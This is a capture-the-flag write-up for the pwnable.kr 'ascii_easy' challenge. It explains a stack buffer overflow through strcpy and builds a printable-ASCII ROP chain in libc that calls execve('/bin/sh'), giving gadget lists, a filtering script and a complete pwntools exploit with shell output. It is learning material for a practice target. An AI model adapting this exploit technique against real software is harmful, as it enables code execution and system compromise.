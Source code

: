 If my memory does not fail me, this is the first [pwnable.kr](pwnable.kr) challenge
that involves building a longer and more sophisticated ROP chain.

Let's as usual start by analyzing the binary:

```
❯ file ascii_easy
ascii_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a74cff7b340c23d3f90db3d934c4ca328c4a6b8, not stripped
```

We are dealing with a `32-bit` binary.
This means that if we wanted to invoke a function we would have to pass it's arguments via the stack,
as you will later see this turns a complication which would change the way we approach the problem.

The "dynamically linked" part is not of interest to us since in the source code we can observe
that another instance of `libc` is mapped at a fixed address `BASE` (`0x5555e000`):

```c
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>

#define BASE ((void*)0x5555e000)

int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}

void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}

void main(int argc, char* argv[]){

    if(argc!=2){
        printf("usage: ascii_easy [ascii input]\n");
        return;
    }

    size_t len_file;
    struct stat st;
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }

    int i;
    for(i=0; i<strlen(argv[1]); i++){
        if( !is_ascii(argv[1][i]) ){
            printf("you have non-ascii byte!\n");
            return;
        }
    }

    printf("triggering bug...\n");
    vuln(argv[1]);

}
```

The program expects a single string of printable ascii characters as command line argument which it later passes
to `strcpy` exposing a potential buffer overflow in the stack frame of the `vuln` function.
A couple of ideas spring to mind here:
- return to `gets`, bypassing printable ascii restriction,
overwrite some part of the mapped `libc` with custom exploit and jump to that exploit.
- return to `system`/`execve` with an argument pointing to `/bin/sh`.

My initial idea was using `gets`, however this resulted in an `SIGSEGV`.
After some time of exploring in GDB I concluded that either the `gets` function wasn't supposed to be directly called
from the address associated with its symbol or that it was corrupted since it dereferenced an uninitialized stack value o_0.

Anyway this made me turn to the second approach - targeting `system`/`execve` directly.
There are a couple of hurdles here, for example neither
`system`, `execve` nor `/bin/sh` (built into `libc`, showcased later)
lie on printable ascii addresses yet we have to somehow arrange them on the stack, which seems hard.
(side note, all these problems are bypassable, you could use other functions from the exec family, i.e. `execv`,
and let the `filename` argument point to any string and then create a `/bin/sh` symlink with the name of the string).
Instead I resorted to a simpler approach:

- Construct a ROP chain that directly invokes `execve` as a system call.

In this scenario the arguments would be passed to registers,
which unlike the stack are easy to manipulate via ROP gadgets.

To understand how to do the ROP we need to get a general idea of how to set up the registers
for the `execve` system call (see [syscall reference table](https://x86.syscall.sh/)):
```
eax - 0xb (execve systemcall number)
ebx - const char * filename
ecx - const char * const * argv
edx - const char * const * envp
```
For `ebx` I targeted the `/bin/sh` address that comes built into `libc`:
```
❯ ROPgadget --binary libc-2.15.so --string /bin/sh
Strings information
============================================================
0x0015d7ec : /bin/sh
```
For `ecx` and `edx` I used addresses pointing to `NULL`.

To find gadgets with which I could do the exploit I used ROPgadget:
```
❯ ROPgadget --binary libc-2.15.so > out
```

I also wrote a short python script to filter out gadgets positioned at inaccessible addresses
(that is addresses which can't be written in printable ascii):

```python
def is_valid(addr):
    addr = '{:x}'.format(addr + 0x5555e000)
    for b in (addr[i:i+2] for i in range(0, 8, 2)):
        b = int(b, 16)
        if b < 0x20 or b > 0x7f:
            return False
    return True

gadgets = ''
with open('out', 'r') as f:
    for line in f:
        if line[:2] != '0x':
            continue
        addr = int(line[:10], 16)
        if is_valid(addr):
            gadgets += line

with open('gadgets', 'w') as f:
    f.write(gadgets)
```

The process of finding the right gadgets was definitely the hardest part of this challenge,
beside the filter script I used a variety of vim substitutions to substantially reduce the search space.
I encourage you to try go through the manual ROP chain building process yourself
it is fun and it will probably make you really appreciate tools for automatic ROP chain generation.

Bellow is the list of gadgets I used:

```
// set edx point to somewhere in the mapped memory so that we can use gadgets which dereference [edx]
0x00196525 : pop edx ; add dword ptr [edx], ecx ; ret

// set ebx point to '/bin/sh' (0x556bb7ec) (split non-ascii address of '/bin/sh' into sum of ascii addresses)
0x0014544b : add al, 0x5d ; pop ebx ; ret
0x000e9a81 : pop ebx ; ret
0x00094c4c : pop esi ; ret
0x00187554 : add ebx, esi ; add dword ptr [edx], ecx ; ret

// set edx point to NULL ; zero out eax
0x00095555 : pop edx ; xor eax, eax ; pop edi ; ret

// set eax to 0xb ; set ecx point to NULL
0x00074040 : xor eax, eax ; ret
0x00174a51 : pop ecx ; add al, 0xa ; ret
0x00097b7a : inc eax ; pop esi ; pop edi ; pop ebp ; ret

// syscall
0x00109177 : int 0x80
```

And finally, here is the python exploit implementing the ROP chain:

```python
from pwn import *

BASE = 0x5555e000

payload = b'A' * 32
payload += p32(BASE + 0x00196525) # pop edx ; add dword ptr [edx], ecx ; ret
payload += p32(0x55565555) # -> edx
payload += p32(BASE + 0x0014544b) # add al 0x5d ; pop ebx ; ret
payload += p32(0x22336677) # -> ebx
payload += p32(BASE + 0x00094c4c) # pop esi ; ret
payload += p32(0x33385175) # -> esi
payload += p32(BASE + 0x00187554) # add ebx, esi ; add dword ptr [edx], ecx ; ret
payload += p32(BASE + 0x00095555) # pop edx ; xor eax, eax ; pop edi ; ret
payload += p32(BASE + 0x00008846) # -> edx
payload += b'junk'
payload += p32(BASE + 0x00174a51) # pop ecx ; add al, 0xa ; ret
payload += p32(BASE + 0x00008846) # -> ecx
payload += p32(BASE + 0x00097b7a) # inc eax ; pop esi ; pop edi ; pop ebp ; ret
payload += b'junk'
payload += b'junk'
payload += b'junk'
payload += p32(BASE + 0x00109177) # int 0x80
payload += b'\x00'

proc = process(['/home/ascii_easy/ascii_easy', payload])
proc.interactive()
proc.close()
```
```
ascii_easy@pwnable:~$ python /tmp/ez/script.py
[+] Starting local process '/home/ascii_easy/ascii_easy': pid 169644
[*] Switching to interactive mode
triggering bug...
$ ls
ascii_easy  ascii_easy.c  flag    intended_solution.txt  libc-2.15.so
$ cat flag
...(flag)...
```
